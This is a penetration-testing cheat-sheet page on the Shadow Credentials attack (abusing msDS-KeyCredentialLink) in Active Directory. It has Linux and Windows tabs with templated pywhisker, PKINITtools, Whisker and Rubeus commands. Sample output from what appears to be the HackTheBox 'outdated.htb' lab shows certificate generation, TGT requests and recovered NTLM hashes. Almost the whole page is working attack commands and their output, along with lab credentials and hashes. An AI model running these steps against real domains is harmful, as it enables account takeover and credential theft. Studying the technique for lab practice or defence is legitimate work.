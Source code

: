 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["Shadow Credentials", "Pass-The-Cert", "AddkeyCredentialLink", "Active Directory", "Windows", "Whisker", "Pywhisker"]
---
```


### Privesc #1: Shadow Credentials

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-Check \[Optional\]

```console
# Password
python3 pywhisker.py -t '<TARGET_USER>' --action list -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action list -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Attribute msDS-KeyCredentialLink is either empty or user does not have read permissions on that attribute
```

```console
# NTLM
python3 pywhisker.py -t '<TARGET_USER>' --action list -d <DOMAIN> -u '<USER>' -H '<HASH>' --dc-ip <DC_IP> --use-ldaps
```

#### 1. Add Shadow Credentials

```console
# Password
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC_IP> -t '<TARGET_USER>' --use-ldaps
```

```console {class="sample-code"}
$ python3 pywhisker.py --action add -d outdated.htb -u 'btables' -p '5myBPLPDKT3Bfq' --dc-ip 10.10.11.175 -t 'sflowers' --use-ldaps
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3c90e8fb-0405-f373-5424-32d34084ccce
[*] Updating the msDS-KeyCredentialLink attribute of sflowers
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 3p24aKIn.pfx
[*] Must be used with password: qFhAIiIMg5ys4SQYYOst
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

```console
# NTLM
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -H '<HASH>' --dc-ip <DC_IP> -t '<TARGET_USER>' --use-ldaps
```

<br>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request a TGT Using the PFX

```console
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<GENERATED_PASSWORD>' '<DOMAIN>/<TARGET_USER>' '<TARGET_USER>.ccache' -dc-ip <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s 10.10.11.175 && python3 gettgtpkinit.py -cert-pfx 3p24aKIn.pfx -pfx-pass 'qFhAIiIMg5ys4SQYYOst' 'outdated.htb/sflowers' sflowers.ccache -dc-ip 10.10.11.175

2024-09-23 01:48:14,567 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-09-23 01:48:14,578 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-09-23 01:48:38,986 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-09-23 01:48:38,987 minikerberos INFO     a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
INFO:minikerberos:a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
2024-09-23 01:48:38,990 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

#### 3. Get NT Hash

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
python3 getnthash.py '<DOMAIN>/<TARGET_USER>' -key <AS_REP_ENC_KEY>
```

```console {class="sample-code"}
$ python3 getnthash.py 'outdated.htb/sflowers' -key a1870bb416f2b965df3df681288f3b272119d86288c67c572675b80ea1bedd94
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
1fcdb1f6015dcb318cc77bb2bda14db5
```

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-Check \[optional\]

```console
.\whisker.exe list /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC>
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe list /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Listing deviced for sflowers:
[*] No entries!
```

#### 1. Add Shadow Credentials

```console
.\whisker.exe add /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC> /password:'<PFX_PASSWORD>'
```

```console {class="sample-code"}
PS C:\programdata> .\whisker.exe add /domain:outdated.htb /target:'sflowers' /dc:10.10.11.175 /password:'Test1234'
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 06a332a6-1ef1-4e73-bb9b-f5e5d1f9e963
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAz .---[SNIP]--- TvhwICB9A= /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show
```

#### 2. Request a TGT Using the PFX File and Get NTLM Hash

```console
.\rubeus.exe asktgt /user:'<TARGET_USER>' /certificate:'<BASE64_PFX>' /password:'<PFX_PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

```console {class="sample-code"}
PS C:\programdata> .\Rubeus.exe asktgt /user:sflowers /certificate:'MIIJuAIBAz .---[SNIP]--- TvhwICB9A=' /password:"Test1234" /domain:outdated.htb /dc:10.10.11.175 /getcredentials /show

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 10.10.11.175:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc ---[SNIP]--- F0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  9/22/2024 10:57:36 AM
  EndTime                  :  9/22/2024 8:57:36 PM
  RenewTill                :  9/29/2024 10:57:36 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  vqosgxeFibuRzlIPfnejKQ==
  ASREP (key)              :  1E1FB4543905764478F7F129026B67A6

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}
